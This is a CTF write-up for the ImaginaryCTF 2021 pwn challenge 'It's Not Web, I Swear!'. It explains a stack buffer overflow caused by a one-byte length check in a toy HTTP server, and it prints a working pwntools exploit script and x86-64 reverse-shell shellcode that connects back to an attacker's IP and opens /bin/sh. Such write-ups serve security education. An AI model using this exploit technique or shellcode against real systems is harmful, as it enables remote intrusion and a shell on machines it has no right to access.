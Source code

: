 # ImaginaryCTF 2021: It's Not Web, I Swear!

![date](https://img.shields.io/badge/date-27.07.2021-brightgreen.svg)  ![solved in time of CTF](https://img.shields.io/badge/solved-in%20time%20of%20CTF-brightgreen.svg) 
![pwn category](https://img.shields.io/badge/category-pwn-lightgrey.svg) ![score](https://img.shields.io/badge/score-450-blue.svg) ![solves](https://img.shields.io/badge/solves-17-brightgreen.svg)

## Description

In the spirit of DEFCON, I present you with this challenge that is not a web challenge! Go forth and pwn this notweb challenge

## Attached files
- [server](https://github.com/krzysztof-bochm/Imaginary-CTF-2021-Writeups/blob/main/server)

## Summary
To acquire the flag we had to find buffer overflow to override return pointer of a function to jump into our shellcode. However when our code is being executed we would already have been disconnected from the server, therefor we needed to reestablish the connection.

## Flag
``` ictf{all_pwn_and_no_web_makes_elliot_a_dull_boy} ```

## Detailed solution
After calling using **checksec** on challenge's binary we discover that there are no security features added by compiler, it even has executable stack
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
We can now look how the server works internally, in the **main** function, just after port passed as program argument gets verified, **startServer** is called. Then the program falls into **accept** loop. For each client connected to the server a new process is created to handle the communication.

In **respond** function firstly program checks if the request starts with ```GET /```
```
   0x4011b8 <respond+235>    mov    rsi, rdx
   0x4011bb <respond+238>    mov    rdi, rax
 ► 0x4011be <respond+241>    call   strstr@plt <strstr@plt>
        haystack: 0x604700 ◂— 'GET / HTTP/1.1\n'
        needle: 0x4017f8 ◂— 0x2f20544547 /* 'GET /' */
   0x4011c3 <respond+246>    cmp    qword ptr [rbp - 0x40], rax
   0x4011c7 <respond+250>    jne    respond+455 <respond+455>
```
our request has to pass that test in order to get to vulnerable path checking.

Then the program searches for ```<space>HTTP``` character sequence and number of characters between the end of ```GET /``` and the start of ```<space>HTTP``` is calculated. That number will be referred to as path length.

It is important to note that path length is stored as 32-bit variable
```
   0x401253 <respond+390>    sub    rdx, rax
   0x401256 <respond+393>    mov    rax, rdx
   0x401259 <respond+396>    mov    dword ptr [rbp - 0x54], eax
   0x40125c <respond+399>    mov    eax, dword ptr [rbp - 0x54]
```
Just after being calculated it is passed to **check_len** function, which returns **true** if length is below 100 and **false** if it is longer ... or ... wait!

```
   0x401067 <check_len+4>     mov    eax, edi
   0x401069 <check_len+6>     mov    byte ptr [rbp - 4], al
   0x40106c <check_len+9>     cmp    byte ptr [rbp - 4], 0x63
   0x401070 <check_len+13>    setbe  al
   0x401073 <check_len+16>    movzx  eax, al
```
it only checks if the least significant byte has value less than 100 ! They have even put it in another function to make it harder to spot!

When the function returns true, our path is copied onto the stack using full 32-bit path length. 
```
   0x40126d <respond+416>    mov    eax, dword ptr [rbp - 0x54]
   0x401270 <respond+419>    movsxd rdx, eax
   0x401273 <respond+422>    mov    rcx, qword ptr [rbp - 0x50]
   0x401277 <respond+426>    lea    rax, [rbp - 0xe0]
   0x40127e <respond+433>    mov    rsi, rcx
   0x401281 <respond+436>    mov    rdi, rax
   0x401284 <respond+439>    call   memcpy@plt <memcpy@plt>
```
There are ``0xe0`` bytes to get to the end of stack frame, then we have **main**'s function ``rbp`` which we can safely corrupt, and then there is return pointer.

However we have to check if there are any local variables that after getting corrupted would result in process crash. 
```
   0x401510 <respond+1091>    mov    rax, qword ptr [rbp - 0x40]
   0x401514 <respond+1095>    mov    rdi, rax
   0x401517 <respond+1098>    call   free@plt <free@plt>
```

There is only one such variable which is a pointer to the buffer that our message was **recv**'ed to. It is getting **free**'d just before return instruction, and never used elsewhere, so we can just zero it out.

We will create simple python script to help us sending data to the server
```
#!/bin/python

from pwn import *

import os

if len(sys.argv) > 1:
    io = remote('localhost', int(sys.argv[1]))
else:
    io = remote('not-web.chal.imaginaryctf.org', 42042)

padding_len = 0x100 - (240 & 0xff)

io.sendline(
        b'GET /' +
        b'A' * 160 +
        b'\x00\x00\x00\x00\x00\x00\x00\x00' +
        b'A' * 0x40 +
        b'BBBBBBBB' +
        b'D' * padding_len +
        b' HTTP'
)
```
We also need to add some padding to our path to make the lower bits of path length be 0

As expected the program crashes when trying to return to address ``0x4242...``
``` 
► 0x40158c <respond+1215>    ret    <0x4242424242424242>
```

Now we need to find address to return to, conveniently author of the challenge kindly left us useful ROP gadget at the end of **startServer** function
```
   0x40105e <startServer+375>    jmp    rsp
```
Stack pointer would now point right after the return pointer which in last example we have set to B's after modifying our script we can just put our shellcode there.
```
...
JMP_RSP = 0x40105e

os.system('nasm shellcode.asm')

shellcode = open('shellcode', 'rb').read()
payload_len = 240 + len(shellcode)
padding_len = 0x100 - (payload_len & 0xff)
...
        b'A' * 0x40 +
        p64(JMP_RSP) +
        shellcode +
        b'D' * padding_len +
...
```

Unfortunately at this point the server has already shut the connection with us down
```
   0x40152b <respond+1118>    mov    esi, 1
   0x401530 <respond+1123>    mov    edi, 1
   0x401535 <respond+1128>    call   shutdown@plt <shutdown@plt>
   0x40153a <respond+1133>    mov    edi, 1
   0x40153f <respond+1138>    call   close@plt <close@plt>
```
Therefor we have to reestablish connection to us in our shellcode:
```
[bits 64]
start:
	mov rax, 41		; socket
	mov rdi, 2		; AF_INET
	mov rsi, 1		; SOCK_STREAM
	xor rdx, rdx
	syscall

	mov r14, rax		; we need to save socket fd

	mov rdi, rax
	mov rax, 42		; connect
	lea rsi, [rel server]
	mov rdx, 16
	syscall

				; using dup2 syscalls we can redirect
				; all standard streams to our socket fd
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 0
	syscall
	
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 1
	syscall
	
	mov rax, 33		; dup2
	mov rdi, r14
	mov rsi, 2
	syscall

	mov rax, 59		; execve
	lea rdi, [rel sh]	; now we can execute bash
	lea rsi, [rel zero]
	lea rdx, [rel zero]
	syscall

zero:	dq 0
sh:	db "/bin/sh", 0
server:	db 0x02,0x00,0x05,0x39, 127,   0,   0,   1,0xa0,0x50,0x55,0x55,0x55,0x55,0x00,0x00
;                    PORT      IP ADDRESS
```

Note that port ( 1337 in this example ) needs to be in **big endian** order.
Now we can just start raw tcp server on specified port and check the result locally.

```
...
os.system('nasm shellcode.asm')

s = listen(1337)
...
c = s.wait_for_connection()
c.interactive()
```
Just remember to put **listen** before sending line to challenge's server and to **wait for connection** at the end of your sploit file.

After our shellcode gets executed we will have shell.
The only thing that is left to do is to put public ip into our code, make sure that the port is correctly forwarded, and send our exploit to challenge's server.
You can then use ls and cat to acquire the flag.

You can also put a write syscall after dup2 syscalls to make it more obvious that our shellcode has connected to our server. But I will leave that part to the reader.
